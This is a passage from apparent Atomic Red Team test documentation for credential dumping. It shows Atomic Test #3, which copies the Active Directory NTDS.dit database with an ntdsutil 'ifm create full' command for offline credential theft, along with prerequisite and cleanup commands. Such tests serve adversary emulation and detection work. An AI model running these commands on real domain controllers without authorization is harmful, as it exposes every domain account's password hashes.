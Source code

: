 ```cmd
if not exist #{extract_path} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
mkdir #{extract_path}
```




<br/>
<br/>

## Atomic Test #3 - Dump Active Directory Database with NTDSUtil
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped using NTDSUtil for offline credential theft attacks. This capability
uses the "IFM" or "Install From Media" backup functionality that allows Active Directory restoration or installation of
subsequent domain controllers without the need of network-based replication.

Upon successful completion, you will find a copy of the ntds.dit file in the C:\Windows\Temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 2364e33d-ceab-4641-8468-bfb1d7cc2723





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_folder | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;ntds_T1003|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mkdir #{output_folder}
ntdsutil "ac i ntds" "ifm" "create full #{output_folder}" q q
```

#### Cleanup Commands:
```cmd
rmdir /q /s #{output_folder} >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
